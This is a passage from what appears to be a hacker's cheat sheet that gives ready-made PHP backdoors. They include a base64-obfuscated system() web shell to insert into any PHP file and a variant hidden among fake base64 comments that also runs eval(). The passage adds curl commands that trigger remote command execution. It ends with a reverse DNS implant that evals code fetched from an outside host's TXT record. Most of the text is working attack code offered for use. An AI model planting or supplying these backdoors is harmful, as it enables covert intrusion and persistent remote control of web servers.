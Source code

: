 Other methods:
* [Gost/Cloudflared](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service) - our very own article
* [Reverse Wireguard](https://thc.org/segfault/wireguard) - from segfault.net to any (internal) network.

<a id="php-backdoor"></a>
**6.v. Smallest PHP Backdoor**

Add this line at the beginning of any PHP file:
```php
<?php $i=base64_decode("aWYoaXNzZXQoJF9QT1NUWzBdKSl7c3lzdGVtKCRfUE9TVFswXSk7ZGllO30K");eval($i);?>
```
It is base64 encoding of:
```php
if(isset($_POST[0])){system($_POST[0]);die;}
```

Test the backdoor:
```sh
### 1. Optional: Start a test PHP server
cd /var/www/html && php -S 127.0.0.1:8080
### Without executing a command
curl http://127.0.0.1:8080/test.php
### With executing a command
curl http://127.0.0.1:8080/test.php -d 0="ps fax; uname -mrs; id"
```

Sometimes `system()` is prohibited. Add `eval()` to allow remote PHP-code execution as a backup. Hide within other base64-comments for some obfuscation:
```php
<?PHP /*1rUY9TDs2wG8In1HkSQzqViVtX2nGidgu/RkzKNJbfho9NqtfTaww4GcR6bIGU+U1AJq
USOIjliQm4T/9HP6YS6IMhwoZzmr2iydbwDcVynDqtLjI5i7owLKmjbKnijTszoXP/dif9ZcbhtJ
WQKmhCno0boYQQ2rjHgW3su1C7pYREPSdrYD/4QBpptJU7Djnm5zuyD2TXNjHXm/ZYUW+n4s3PM7
aWqzWzy*/if(isset($_POST[0])){eval($_POST[1]?:"");system($_POST[0]);die;}/*P
0KKBW1rvtqxOK8L9Ok6y7Rulkl2um62KVxvVx/+kODDw4HZV5Yx/HK/7lG+X/IkK8LViCIuaedXl
HM1wHBlDluhe8BN6pH33fn0bfFpjCDaKrKwK3QF6ExJu1JgKK9deyWUTcqbr0dhe7ZliOIldh3of
+4qUjhVdK4SoeND/Dd+iwRAbhZKxaHfng4ADqdWrwjUPoyTjzOp6C3iDzunviiG0RC3iDuCY*/?>
```

Trigger with any of these to execute comand or PHP code:
```shell
# Execute just command
curl http://127.0.0.1:8080/x.php -d0='id'
# Execute just PHP code
curl http://127.0.0.1:8080/x.php -d0='' -d1='echo file_get_contents("/etc/hosts");'
```

<a id="reverse-dns-backdoor"></a>
**6.vi. Smallest reverse DNS-tunnel Backdoor**

Execute arbitrary commands on a server that is _not_ accessible from the public Internet by using a reverse DNS trigger.

Add this line (the implant) at the beginning of any PHP file:
```php
<?PHP eval(base64_decode(dns_get_record("b00m.team-teso.net", DNS_TXT)[0]['txt'])); ?>
```
